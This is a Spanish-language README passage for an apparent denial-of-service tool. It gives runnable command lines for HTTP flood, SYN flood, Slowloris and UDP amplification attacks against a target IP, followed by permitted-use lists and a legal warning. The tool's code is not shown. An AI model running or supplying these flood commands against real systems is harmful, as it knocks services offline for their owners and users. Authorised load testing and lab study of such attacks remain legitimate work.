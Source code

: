 
## 🔧 Tipos de Ataques

### 1. HTTP-Flood
```bash
python python/attacks.py --attack http_flood --target 192.168.1.1 --port 80 --threads 50 --duration 60
```
**Uso**: Abrumar servidor web con solicitudes HTTP

### 2. SYN-Flood
```bash
sudo python python/attacks.py --attack syn_flood --target 192.168.1.1 --port 443 --threads 100 --duration 60
```
**Uso**: Abrumar tabla de conexiones TCP (requiere admin)

### 3. Slowloris
```bash
python python/attacks.py --attack slowloris --target 192.168.1.1 --port 80 --threads 30 --duration 300
```
**Uso**: Mantener conexiones abiertas indefinidamente

### 4. UDP-Amplification
```bash
python python/attacks.py --attack udp_amplification --target 192.168.1.1 --port 53 --threads 200 --duration 60
```
**Uso**: Amplificar tráfico usando servidores DNS/NTP

---

## ⚠️ Importante

### ✅ Permitido
- Pruebas en tu propia red
- Laboratorios de seguridad
- Investigación académica
- Pruebas autorizadas

### ❌ Prohibido
- Ataques no autorizados
- Daño a sistemas ajenos
- Uso malicioso

### 🔐 Advertencia Legal
El uso no autorizado es **ILEGAL** y puede resultar en:
- Cargos criminales
- Multas de hasta $250,000 USD
- Encarcelamiento de hasta 10 años
